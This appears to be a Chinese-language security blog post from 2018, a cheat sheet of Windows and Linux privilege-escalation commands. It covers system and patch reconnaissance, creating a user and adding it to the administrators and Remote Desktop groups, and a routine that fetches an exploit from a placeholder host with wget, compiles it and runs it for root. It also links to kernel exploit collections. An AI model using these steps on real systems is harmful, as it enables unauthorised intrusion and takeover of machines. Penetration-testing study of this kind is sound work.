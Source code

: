 ```yaml
---
layout: post
title: 内网提权命令
category: 
  - web安全
tags: 
  - web安全
abbrlink: 3415919552
date: 2018-09-07 00:00:00
---
```


## Windows基础命令

	net user xx

	query user #查看用户登录情况

	whoami #当前用户权限

	systeminfo #查看当前系统版本与补丁信息

	net user xx 123456 /add #添加用户

	net localgroup administrators xx /add #添加到管理员组

	net localgroup "Remote Desktop Users" xx /add #如远程桌面连接不上那么添加远程桌面组

	ipconfig #查看本机ip信息，可加 /all 参数

	netstat -ano #查看端口情况

	dir c:\ #查看目录

	type c:\Users\admin\Desktop\1.txt #查看指定位置文件内容，一般为文本文件

	echo 字符串>2.txt #写入文本到文件。特殊字符如<>等前面加^

	copy 1.txt 3.php #复制文件

	rename d:\2.txt mspaint.bat #将某个路径下的文件重命名

	tasklist #查看所有进程占用的端口

	taskkill /im xx.ext /f #强制结束指定进程 如 taskkill /im QQMusic.exe /f


## Windows基础提权命令

	查看系统信息
	systeminfo|findstr /B/C:"OS名称"/C:"OS版本"

	主机名
	Hostname

	环境变量
	Set

	查看用户信息
	Net user
	Net1 user

	查看服务pid号
	Tasklist/svc|find "TermService"
	netstat -ano|find "1488"

	查看系统名
	wmic os get caption

	查看补丁信息
	wmic dfe get Description,HotFixID,InstalledOn|findstr /C:"KB4013389" /C:"KB958644"

	查看当前安装程序
	wmic product get name,version

## Linux基础命令

	查看系统版本信息
		cat /etc/issue
		cat /etc/*-release
	查看内核版本
		uname -a



## Linux提权基础命令

	基础命令：
	uname -an
	id
	pwd
	cat /etc/issue

	套路：
	wget http://exp/exp.c
	gcc -o exp exp.c
	chmod +x exp
	./exp
	...到root

## LINK

[【权限提升】Linux 提权常用命令集](https://zhuanlan.zhihu.com/p/42358253)  
[SecWikiGithub](https://github.com/SecWiki)  
[SecWiki](https://www.sec-wiki.com/)  
[Exploit-db本地提权](https://www.exploit-db.com/local/)  
[Windows提权漏洞集合](https://github.com/SecWiki/windows-kernel-exploits)  
[Linux提权漏洞集合](https://github.com/SecWiki/linux-kernel-exploits)  
[Mac-OS提权漏洞集合](https://github.com/SecWiki/macos-kernel-exploits)  




